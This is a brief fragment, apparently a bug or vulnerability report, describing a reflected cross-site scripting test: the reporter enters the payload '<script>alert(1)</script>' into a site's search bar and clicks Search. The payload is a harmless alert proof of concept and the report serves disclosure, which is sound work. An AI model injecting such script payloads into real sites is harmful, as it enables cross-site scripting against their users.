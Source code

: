 Add payload <script>alert(1)</script> into search bar
![image](https://github.com/user-attachments/assets/d54ce8b8-0381-416e-97c3-bd605d98ba7b)

Click "Search" and that's all. 
